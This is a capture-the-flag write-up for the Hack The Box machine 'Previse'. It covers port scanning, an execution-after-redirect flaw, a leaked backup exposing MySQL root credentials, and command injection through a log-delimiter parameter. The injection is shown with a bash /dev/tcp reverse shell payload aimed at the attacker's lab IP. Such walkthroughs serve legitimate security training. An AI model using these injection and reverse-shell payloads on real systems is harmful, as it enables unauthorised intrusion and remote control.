







+++
title = "Previse"
date = "2024-01-09"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-08-07

**Created by**: [m4lwhere](https://app.hackthebox.com/users/107145)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.8`, while the target machine's IP address will be `10.10.11.104`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Previse using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.104 -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.104 -p 22,80 -sV
```

```
<SNIP>
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` found that Previse is running Linux. The version of the Apache web server suggests that it might even be Ubuntu!

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.104 -p 22,80 -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
<SNIP>
```

There's nothing overly interesting, we only learn that the HTTP title of the Apache homepage is 'Previse Login'.

Let's explore it then!

## Apache (port `80/tcp`)

Let's browse to `http://10.10.11.104/` and see what we get.



We are redirected to `/login.php`, where we are presented a form to log in. The header at the top indicates that Previse is a file storage service.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.11.104/ -I
```

```
HTTP/1.1 302 Found
Date: Mon, 08 Jan 2024 21:23:59 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=0rienpitsk2mjmupqoi3ag6kat; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Type: text/html; charset=UTF-8
```

The homepage indeed redirects to `login.php`. We don't learn anything new, the `Server` header only confirms what we discovered [earlier](#service-fingerprinting).

### Technology lookup

Before exploring this website, let's look up the technologies it uses with the [Wappalyzer](https://www.wappalyzer.com/) extension.



Wappalyzer indicates that this website is using PHP, and is a PWA.

### Common credentials

I tried some common credentials, but none of them worked.

The foothold gives us a potential username, `m4lwhere`, the author of this box. I also tried it, but I always get the same error message:


### SQLi

I tried a few common SQLi payloads, but they all failed. Therefore, I decided to run `sqlmap` to check for more advanced SQLi, but it failed too.

### Site crawling

Let's crawl the website to see if I there's interesting linked web pages.

```sh
❯ katana -u http://10.10.11.104/
```

```
[INF] Started standard crawling for => http://10.10.11.104/
http://10.10.11.104/
http://10.10.11.104/site.webmanifest
http://10.10.11.104/logout.php
http://10.10.11.104/file_logs.php
http://10.10.11.104/js/uikit-icons.min.js
http://10.10.11.104/js/uikit.min.js
http://10.10.11.104/css/uikit.min.css
http://10.10.11.104/login.php
http://10.10.11.104/status.php
http://10.10.11.104/files.php
http://10.10.11.104/accounts.php
http://10.10.11.104/index.php
http://10.10.11.104/download.php?file=32
```

We find many web pages! Unfortunately, they all redirect to `/login.php` for now.

### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u http://10.10.11.104/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php
```

```
<SNIP>
[Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 64ms]
| URL | http://10.10.11.104/index.php
| --> | login.php
    * FUZZ: index.php

[Status: 200, Size: 2224, Words: 486, Lines: 54, Duration: 94ms]
| URL | http://10.10.11.104/login.php
    * FUZZ: login.php

[Status: 302, Size: 4914, Words: 1531, Lines: 113, Duration: 63ms]
| URL | http://10.10.11.104/files.php
| --> | login.php
    * FUZZ: files.php

[Status: 200, Size: 980, Words: 183, Lines: 21, Duration: 85ms]
| URL | http://10.10.11.104/header.php
    * FUZZ: header.php

[Status: 200, Size: 1248, Words: 462, Lines: 32, Duration: 57ms]
| URL | http://10.10.11.104/nav.php
    * FUZZ: nav.php

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2392ms]
| URL | http://10.10.11.104/download.php
| --> | login.php
    * FUZZ: download.php

[Status: 200, Size: 217, Words: 10, Lines: 6, Duration: 64ms]
| URL | http://10.10.11.104/footer.php
    * FUZZ: footer.php

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 116ms]
| URL | http://10.10.11.104/css
| --> | http://10.10.11.104/css/
    * FUZZ: css

[Status: 302, Size: 2966, Words: 749, Lines: 75, Duration: 103ms]
| URL | http://10.10.11.104/status.php
| --> | login.php
    * FUZZ: status.php

[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 155ms]
| URL | http://10.10.11.104/js
| --> | http://10.10.11.104/js/
    * FUZZ: js

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
| URL | http://10.10.11.104/logout.php
| --> | login.php
    * FUZZ: logout.php

[Status: 302, Size: 3994, Words: 1096, Lines: 94, Duration: 91ms]
| URL | http://10.10.11.104/accounts.php
| --> | login.php
    * FUZZ: accounts.php

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 83ms]
| URL | http://10.10.11.104/config.php
    * FUZZ: config.php

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 155ms]
| URL | http://10.10.11.104/logs.php
| --> | login.php
    * FUZZ: logs.php

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 55ms]
| URL | http://10.10.11.104/.php
    * FUZZ: .php

[Status: 302, Size: 2801, Words: 737, Lines: 72, Duration: 70ms]
| URL | http://10.10.11.104/
| --> | login.php
    * FUZZ: 

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 76ms]
| URL | http://10.10.11.104/server-status
    * FUZZ: server-status
<SNIP>
```

`ffuf` finds many web pages, but most of them redirect to `/login.php`. There's a few files that do exist though: `header.php`, `nav.php`, `footer.php` and `config.php`.

If we browse to them, we see nothing. This is beause these files are not meant to be whole pages, but instead included in other web pages. For that matter, the `header.php` file is likely responsible for checking if the user has a valid session, and if not redirecting to `/login.php`!

### EAR

We are redirected every time we try to access a web page since we're not logged in, but maybe this website is vulnerable to EAR.

Let's check if the web pages we don't have access to return any content:

```sh
❯ curl http://10.10.11.104/
```

```html
<!DOCTYPE html>
<html>
    <head>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8" />
        <meta charset="utf-8" />
    
            
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta name="description" content="Previse rocks your socks." />
        <meta name="author" content="m4lwhere" />
        <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="apple-touch-icon" sizes="180x180" href="/apple-touch-icon.png">
        <link rel="icon" type="image/png" sizes="32x32" href="/favicon-32x32.png">
        <link rel="icon" type="image/png" sizes="16x16" href="/favicon-16x16.png">
        <link rel="manifest" href="/site.webmanifest">
        <link rel="stylesheet" href="css/uikit.min.css" />
        <script src="js/uikit.min.js"></script>
        <script src="js/uikit-icons.min.js"></script>
   

<title>Previse Home</title>
</head>
<body>
    
<nav class="uk-navbar-container" uk-navbar>
    <div class="uk-navbar-center">
        <ul class="uk-navbar-nav">
            <li class="uk-active"><a href="/index.php">Home</a></li>
            <li>
                <a href="accounts.php">ACCOUNTS</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="accounts.php">CREATE ACCOUNT</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="files.php">FILES</a></li>
            <li>
                <a href="status.php">MANAGEMENT MENU</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="status.php">WEBSITE STATUS</a></li>
                        <li><a href="file_logs.php">LOG DATA</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="#" class=".uk-text-uppercase"></span></a></li>
            <li>
                <a href="logout.php">
                    <button class="uk-button uk-button-default uk-button-small">LOG OUT</button>
                </a>
            </li>
        </ul>
    </div>
</nav>

    <section class="uk-section uk-section-default">
        <div class="uk-container">
            <h2 class="uk-heading-divider">Previse File Hosting</h2>
            <p>Previse File Hosting Service Management.</p>
            <p>Don't have an account? Create one!</p>
        </div>
    </section>
    
<div class="uk-position-bottom-center uk-padding-small">
        <a href="https://m4lwhere.org/" target="_blank"><button class="uk-button uk-button-text uk-text-small">Created by m4lwhere</button></a>
</div>
</body>
</html>
```

The homepage does! So there's an EAR vulnerability.

### Exploration

I'll add a rule in Caido to replace the first line of responses to `200 OK` if it finds `302 Found`. This way, I will bypass redirects.

Now I can explore the website without being connected!

Let's start by `http://10.10.11.104/`.



This is a standard homepage, we have a few links to access other web pages and a button to log out.



The 'Accounts' page allows us to create a new user account. There's a message in red indicating that only admins should be able to access this page... it must be really sensitive!

The website indicates that the usernames and passwords must be between `5` and `32` characters.



The 'Accounts' page allows us to upload a file and to delete them. There's already a `siteBackup.zip` file, added by the `newguy` user. We can click on it to download it, but it doesn't work.



The 'Status' page displays various information on the status of the website. Currently, there's `1` registered admin and `1` uploaded file.

It also indicates that the MySQL server is up and running.



The 'Logs' page allows us to request logs and to specify a delimiter format. Unfortunately, clicking on 'Submit' returns a blank page at the moment.

### Account creation

I don't see any functionalities I could exploit to get a shell on the server right now, so I'll start by creating an account.

I'll enter `foooo` as the username and the password.


Now let's log in with these credentials.

The pages are the same, but this time if we try to download the `siteBackup.zip` file, it works!

We can also download the logs now.

### Enumerating `siteBackup.zip`

Let's get the content of this `.zip` file:

```sh
❯ unzip -l /workspace/siteBackup.zip
```

```
Archive:  /workspace/siteBackup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     5689  2021-06-12 13:04   accounts.php
      208  2021-06-12 13:07   config.php
     1562  2021-06-09 14:57   download.php
     1191  2021-06-12 13:10   file_logs.php
     6107  2021-06-09 14:51   files.php
      217  2021-06-03 12:00   footer.php
     1012  2021-06-06 03:56   header.php
      551  2021-06-06 04:00   index.php
     2967  2021-06-12 13:06   login.php
      190  2021-06-08 18:42   logout.php
     1174  2021-06-09 14:58   logs.php
     1279  2021-06-05 21:31   nav.php
     1900  2021-06-09 14:40   status.php
---------                     -------
    24047                     13 files
```

It probably contains the source code of this website. Let's unzip it!

```sh
❯ unzip /workspace/siteBackup.zip -d /workspace/
```

```
Archive:  /workspace/siteBackup.zip
  inflating: /workspace/accounts.php  
  inflating: /workspace/config.php   
  inflating: /workspace/download.php  
  inflating: /workspace/file_logs.php  
  inflating: /workspace/files.php    
  inflating: /workspace/footer.php   
  inflating: /workspace/header.php   
  inflating: /workspace/index.php    
  inflating: /workspace/login.php    
  inflating: /workspace/logout.php   
  inflating: /workspace/logs.php     
  inflating: /workspace/nav.php      
  inflating: /workspace/status.php
```

Now let's explore these files for credentials, or anything that would allow us to get a foothold.

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

The `config.php` file contains credentials. Apparently, the MySQL queries are ran as `root` with the password `mySQL_p@ssw0rd!:)`!

Unfortunately, there's no way to query the MySQL database remotely, as it's running locally on Previse.

```php,linenos
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```

The `logs.php` file is also really interesting. The author left a message indicating that it was too hard to parse the log delimiters using PHP, so a Python script was used for that. The `/opt/scripts/log_process.py` is executed with `/usr/bin/python` at the line `19` using the `system` keyword.

More importantly, the POST parameter `delim` value is passed as an argument to the Python script. Since this is a user-controllable input, we could execute custom OS commands!

# Foothold (OS command execution)

## Check

I don't know how to use the POST parameter we identified to execute valid OS commands yet, so the goal right now is to send ICMP requests to my host.

I'm going to start monitoring ICMP requests on the HTB interface:

```sh
❯ tcpdump -ni tun0 icmp
```

```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Then I'll replay the logs download request in Caido. I'll check if `;` is a valid delimiter to execute OS commands. To do so, I'll change the POST parameters to:

```html
delim=;ping%20-c%205%2010.10.14.8
```

If I send it and look at my listener, I see:

```
15:17:17.980349 IP 10.10.11.104 > 10.10.14.8: ICMP echo request, id 1985, seq 1, length 64
15:17:17.980369 IP 10.10.14.8 > 10.10.11.104: ICMP echo reply, id 1985, seq 1, length 64
15:17:19.002321 IP 10.10.11.104 > 10.10.14.8: ICMP echo request, id 1985, seq 2, length 64
15:17:19.002340 IP 10.10.14.8 > 10.10.11.104: ICMP echo reply, id 1985, seq 2, length 64
15:17:19.836251 IP 10.10.11.104 > 10.10.14.8: ICMP echo request, id 1985, seq 3, length 64
15:17:19.836270 IP 10.10.14.8 > 10.10.11.104: ICMP echo reply, id 1985, seq 3, length 64
15:17:20.845315 IP 10.10.11.104 > 10.10.14.8: ICMP echo request, id 1985, seq 4, length 64
15:17:20.845337 IP 10.10.14.8 > 10.10.11.104: ICMP echo reply, id 1985, seq 4, length 64
15:17:21.971935 IP 10.10.11.104 > 10.10.14.8: ICMP echo request, id 1985, seq 5, length 64
15:17:21.971954 IP 10.10.14.8 > 10.10.11.104: ICMP echo reply, id 1985, seq 5, length 64
```

So it worked! We can execute commands by entering `;` followed by our command.

## Preparation

The goal now will be to get a reverse shell.

I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's find the payload to obtain the reverse shell. I'll choose this one:

```sh
/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

Therefore, the logs download request parameters should be:

```html
delim=;%2Fbin%2Fbash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.8%2F9001%200%3E%261%27
```

Let's try it!

```
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.104] 35434
sh: 0: can't access tty; job control turned off
$
```

It caught the reverse shell. Nice!

This shell is quite limited though, so let's execute a Python one-liner to transform it into an interactive one:

```sh
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@previse:/var/www/html$
```

That's better!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `www-data`.

## Distribution

Let's see which distribution Antique is using.

```sh
www-data@previse:/var/www/html$ lsb_release -a
```

```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.5 LTS
Release:        18.04
Codename:       bionic
```

So this is Ubuntu 18.04, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Antique's architecture?

```sh
www-data@previse:/var/www/html$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Antique is vulnerable to a kernel exploit?

```sh
www-data@previse:/var/www/html$ uname -r
```

```
4.15.0-151-generic
```

Unfortunately, the kernel version is kinda recent too.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
www-data@previse:/var/www/html$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
<SNIP>
-rw-r--r--  1 root root   198 Nov 23  2018 lxc-containers
-rw-r--r--  1 root root  3194 Mar 26  2018 sbin.dhclient
-rw-r--r--  1 root root   125 Nov 23  2018 usr.bin.lxc-start
-rw-r--r--  1 root root  2857 Apr  7  2018 usr.bin.man
-rw-r--r--  1 root root 26912 Mar 26  2021 usr.lib.snapd.snap-confine.real
-rw-r--r--  1 root root  1793 Apr 23  2021 usr.sbin.mysqld
-rw-r--r--  1 root root  1550 Apr 24  2018 usr.sbin.rsyslogd
-rw-r--r--  1 root root  1353 Mar 31  2018 usr.sbin.tcpdump
```

All of these profiles are classic.

## NICs

Let's gather the list of connected NICs.

```sh
www-data@previse:/var/www/html$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:6b:cc brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.104/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:6bcc/64 scope global dynamic mngtmpaddr 
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:6bcc/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Antique's hostname?

```sh
www-data@previse:/var/www/html$ hostname
```

```
previse
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
www-data@previse:/var/www/html$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
m4lwhere
```

Okay, so there's `m4lwhere` and `root`.

## Local groups

Let's retrieve the list of all local groups.

```sh
www-data@previse:/var/www/html$ getent group | cut -d: -f1 | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
landscape
list
lp
lxd
m4lwhere
mail
man
messagebus
mlocate
mysql
netdev
news
nogroup
operator
plugdev
proxy
root
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-journal
systemd-network
systemd-resolve
tape
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

## User account information

Let's see to which groups we currently belong.

```sh
www-data@previse:/var/www/html$ groups
```

```
www-data
```

Unfortunately we don't belong to the `lxd` group, but only to the default group for our user.

## Home folder

Since we're not a classic user, we don't have a home folder in `/home`. Only `m4lwhere` does.

If we explore his home folder, we find the user flag file, but we can't read it.

## Command history

We can try to check the history of the commands our user ran, but it's discarded into `/dev/null`.

## Sudo permissions

If we try to check for our `sudo` permissions, we are asked for a password. I tried the one we found [earlier](#enumerating-sitebackup-zip), but it didn't work.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```sh
www-data@previse:/var/www/html$ env
```

```
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=5959721465124f04ab0fff934fb2a473
APACHE_LOCK_DIR=/var/lock/apache2
PWD=/var/www/html
JOURNAL_STREAM=9:26992
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
_=/usr/bin/env
```

As expected for the `www-data` user, there's mostly Apache-related variables.

## Website code review

Let's review the content of the website, located at `/var/www/html`, but we already got it in the backup and from what I can tell it hasn't been modified.

## MySQL (port `3306/tcp`)

